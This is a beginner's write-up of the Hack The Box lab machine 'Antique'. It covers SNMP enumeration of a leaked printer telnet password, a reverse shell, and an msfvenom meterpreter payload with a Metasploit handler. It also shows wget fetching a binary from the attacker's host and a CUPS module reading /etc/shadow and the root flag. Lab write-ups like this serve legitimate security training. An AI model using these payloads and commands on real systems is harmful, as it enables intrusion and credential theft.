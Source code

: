 # Antique

This is my write-up for the machine **Antique** located at: [https://app.hackthebox.com/machines/Antique](https://app.hackthebox.com/machines/Antique).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

From the tags, I am able to notice that this machine is about printer exploitation on Linux:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1).png>)

A basic nmap scan shows that only telnet is online:

![](<../../.gitbook/assets/image (331) (1).png>)

Trying to telnet into the system, it asks for a password:

![](<../../.gitbook/assets/image (348) (1) (1).png>)

I also had a deeper nmap scan running: `nmap -A -T4 -p- 10.10.11.107 -oN antique.nmap`

```
// SomeStarting Nmap 7.92 ( https://nmap.org ) at 2021-12-21 16:13 EST
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
23/tcp    open     telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
530/tcp   filtered courier
37918/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=12/21%Time=61C2455F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.36 seconds

```

This nmap scan came back with pretty much the same information. I then viewed the walk-through to see where I had messed up. I learned about a tool called **snmpwalk**. In the walk-through, the author runs `snmpwalk -v 2c -c public 10.10.11.107`, which gets the following output:

![](<../../.gitbook/assets/image (332) (1) (1).png>)

I had actually had found the password for telnet on my own, but I was unable to decode it:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

I use **snmpget**, while the walk-through used **snmpwalk**. In the walk-through they used **binascii** (python import) in order to decode the bytes. I wanted to find a solution that was a bit more basic. I ended up using [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) to convert the bytes from hex to ascii:

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

The password seems to be: **P@ssw0rd@123!!123** I was in!

![](<../../.gitbook/assets/image (323) (1).png>)

I then noticed the walk-through mentioned to run `exec id`. I then tried playing around with linux commands, and ended up finding the user.txt file:

![](<../../.gitbook/assets/image (325).png>)

I noticed the write-up use python for the reverse shell. I then used [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to see if I can use one of their python commands. Once I changed their python command from **python** to **python3**, it worked:

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1).png>)

I viewed the walk-through again to see what I missed. The walk-through author runs the netstat command to see what connections are there:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1).png>)

They then go on to say that we should use **chisel** to connect to the port. I ran into an issue here where I was unable to download a GitHub repository onto the machine itself. I then realize that you make the binary locally and then upload it to the server. I uploaded the file to the machine by running `python3 -m http.server` on the folder where chisel was downloaded. I was then able to upload it by running `wget http://10.10.14.10:8000/chisel` on the remote machine. When I uploaded the file, I was unable to run it due to some dependency error in terms of version of libc:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1).png>)

&#x20;I then followed [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/) to see what I missed and what I could have done instead. They run `wget localhost:631`, which makes a file called **index.html** in the folder you are in. There, you can see that CUPS is mentioned:

![](<../../.gitbook/assets/image (339) (1) (1) (1).png>)

When we search for cups on metasploit we get the following:

![](<../../.gitbook/assets/image (338) (1) (1) (1).png>)

We first make a shell file to upload to the server. To do this, the walk-through mentioned previously mentions `msfvenom -p linux/x64/meterpreter/reverse`_`tcp LHOST=<`_`YOUR-IP> LPORT=1337 --format elf > shell`. This will make the **shell** file in your directory. To move it to the remote machine, you can use the python http.server command mentioned previously. Before I ran the shell executable, I ran the following commands in Metasploit (based off of [this write-up](https://howtohack44323049.wordpress.com/2021/12/13/htb\_antique\_eng/)):

```
use exploit/multi/handler
set lhost <YOUR_IP>
set lport 1337
set payload linux/x64/meterpreter/reverse_tcp 
run
```

After I ran the **run** command, I then switched to the remote machine and ran the shell executable (run `chmod +x shell` to make it executable). This gave me a connection in Metasploit:

![](<../../.gitbook/assets/image (347) (1) (1) (1).png>)

I then ran the following commands to look for the cups post exploitation program:

![](<../../.gitbook/assets/image (326).png>)

I then hit run and got an output:

![](<../../.gitbook/assets/image (344) (1) (1) (1).png>)

Opening that file shows the output of /etc/shadow:

![](<../../.gitbook/assets/image (342) (1) (1).png>)

Since we want to get the output of /root/root.txt, I changed my option in metasploit to that:

![](<../../.gitbook/assets/image (335) (1) (1).png>)

Reading that file got me the root flag:

![](<../../.gitbook/assets/image (340) (1) (1) (1).png>)
